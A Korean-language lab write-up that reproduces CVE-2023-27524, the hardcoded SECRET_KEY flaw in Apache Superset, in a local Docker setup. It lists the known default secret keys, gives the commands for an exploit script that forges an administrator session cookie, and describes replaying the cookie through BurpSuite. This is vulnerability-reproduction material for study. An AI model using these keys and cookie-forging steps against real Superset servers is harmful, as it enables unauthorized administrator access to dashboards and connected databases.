





## Apache Superset Hardcoded JWT Secret Key Leads to Authentication Bypass (CVE-2023-27524)
Apache Superset은 시각적, 직관적, 대화형으로 설계된 오픈소스 데이터 탐색 및 시각화 플랫폼입니다.

Apache Superset에는 하드코딩된 JWT 비밀 키 취약점(CVE-2023-27524)이 포함되어 있습니다.
이 애플리케이션은 `SECRET_KEY`세션 쿠키에 서명하는 데 사용되는 기본값과 함께 제공됩니다. 
관리자가 이 기본 키를 변경하지 못하면 공격자는 유효한 세션 쿠키를 위조하고 관리자를 포함한 모든 사용자로 인증할 수 있습니다. 
이를 통해 Superset 대시보드, 연결된 데이터베이스에 대한 무단 액세스가 허용되고 잠재적으로 원격 코드 실행으로 이어질 수 있습니다.

- Ubuntu 24.04 환경에서 진행하였습니다.
### 환경 설정

```bash
# git clone --depth 1 https://github.com/{repositry주소}.git
git clone --depth 1 https://github.com/ggam-yong/ch-vulhub.git
cd ch-vulhub/superset/CVE-2023-27524
```

다음 명령을 실행하여 Apache Superset 2.0.1 서버를 시작합니다
```bash
docker compose up -d
```
---

### 취약점 재생산


`firefox에서 http://127.0.0.1:8088` 에 접속합니다. 기본 로그인 자격 증명은 admin/vulhub입니다.

Superset이 다음의 하드코딩된 기본값 중 하나를 사용하기 때문에 취약점이 존재합니다 `SECRET_KEY`.

- `\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h`(버전 < 1.4.1)
- `CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET`(버전 >= 1.4.1)
- `thisISaSECRET_1234`(배포 템플릿)
- `YOUR_OWN_RANDOM_GENERATED_SECRET_KEY`(선적 서류 비치)
- `TEST_NON_DEV_SECRET`(도커 컴포즈)

---

### 관리자 세션 쿠키 획득

[CVE-2023-27524.py](CVE-2023-27524.py)를사용하여 관리자 세션쿠키로 위조합니다. 이때 관리자 세션쿠키는 user_id 가 1입니다. 이 스크립트는 알려진 기본 비밀 키를 사용하여 세션 쿠키를 크랙하려고 시도합니다.
# Install dependencies
pip install -r requirements.txt

# Forge an administrative session (whose user_id is 1) cookie
python CVE-2023-27524.py --url http://127.0.0.1:8088 --id 1 --validate



쿠키 값에 우의 JWT 토큰을 사용하면 `Cookie: eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.Z_...` Superset의 백엔드 엔드포인트에 액세스할 수 있습니다.

---

### BurpSuite

우분투 환경에서 BurpSuite와 chrome browser를 설치한 후 다음의 명령어를 통해 BurpSuiteCommunity를 실행해 줍니다. 


```bash
cd ~/BurpSuiteCommunity
./BurpSuiteCommunity
```




요청의 Cookie: session 값을 획득한 값으로 위조하면 Superset의 백엔드 엔드포인트에 액세스할 수 있습니다.




